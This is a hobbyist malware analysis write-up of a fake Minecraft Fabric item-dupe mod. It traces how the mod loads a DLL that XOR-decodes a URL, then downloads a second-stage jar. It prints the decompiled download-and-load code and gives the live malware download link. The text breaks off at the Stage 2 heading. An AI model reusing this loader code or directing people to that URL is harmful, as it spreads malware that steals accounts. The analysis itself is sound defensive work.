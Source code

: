 # Malware Analysis
## Background

i got this Malware from a friend who got hacked by it. 
The malware is disguised as a Minecraft Fabric mod to dupe items in the version 1.21.
after a day or so our base was gone and he had new "friends" on discord.
After noticing i asked him to send me the "Mod".

## Stage 1: The Minecraft Mod

After extracting the mod  
`$ unzip Malware.jar`

and looking whats there i found a suspicios dll called mysecret.dll.  
After looking into it further i also found that in [NewMod.class (Dumped)](./../assets/malware-analysis/stage1/unpacked/dev/majanito/NewMod.java)  
are some things i do **NOT** like

number one:
```
    private byte[] downloadJar(String urlString) throws Exception {
        URL url = new URL(urlString);
        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("GET");
        try (InputStream in = conn.getInputStream();){
            byte[] byArray;
            try (ByteArrayOutputStream out = new ByteArrayOutputStream();){
                int n;
                byte[] buffer = new byte[8192];
                while ((n = in.read(buffer)) != -1) {
                    out.write(buffer, 0, n);
                }
                byArray = out.toByteArray();
            }
            return byArray;
        }
    }
```

which is called btw
`byte[] jarBytes = this.downloadJar(Secret.VALUE);`

---

and number two:
```
$ cfr Secret.class 
/*
 * Decompiled with CFR 0.152.
 */
package dev.majanito;

import dev.majanito.NativeUtils;

public class Secret {
    public static final String VALUE;

    private static native String loadSecret();

    static {
        String libPath = "/native/" + System.mapLibraryName("mysecret");
        NativeUtils.loadLibraryFromJar(libPath);
        VALUE = Secret.loadSecret();
    }
}
```
---
This brought me to the conclusion that the Mod Loads a .dll, mysecret.dll to be exact,
and Dowloads something from a link it returns.

---

### Stage 1.2, getting the download link


looking at the strings in the dll we dont see much,
the most notable beeing:  
`Java_dev_majanito_Secret_loadSecret`

dumping it with  
`objdump -d mysecret.dll`  
we get [this dump](./../assets/malware-analysis/stage1/dump.txt),
though we only care about the loadSecret function.

---

after looking at it in [binaryninja](https://binary.ninja/)
i saw this:  
![Picture](./../assets/malware-analysis/pictures/stage1xor.png "an Xor cipher")

The main thing i saw was this loop, it read data from the first 28 bytes  
of .rdata, and then XORs them with 0xBB (187).

After Dumping those bytes and Xoring them  
```  
$ objdump mysecret.dll -h | grep .rdata
  2 .rdata        000006a0  000000024d284000  000000024d284000  00001e00  2**4  

$ xxd -s 0x00001e00 -l 0x26 mysecret.dll 
00001e00: d3cf cfcb c881 9494 d6d8 d2d5 d1de d8cf  ................
00001e10: d4c9 95c9 ce94 e9de d6d4 cfde eecb dfda  ................
00001e20: cfde 95d1 dac9                           ......

$ python decrypt.py && cat output.bin
XORed data saved to output.bin
https://mcinjector.ru/RemoteUpdate.jar

```

[decrypt.py](./../assets/malware-analysis/stage1/decrypt.py)

we get a link to the to what its downloading  
[MALWARE](https://mcinjector.ru/RemoteUpdate.jar)

---

## Stage 2, RemoteUpdate.jar
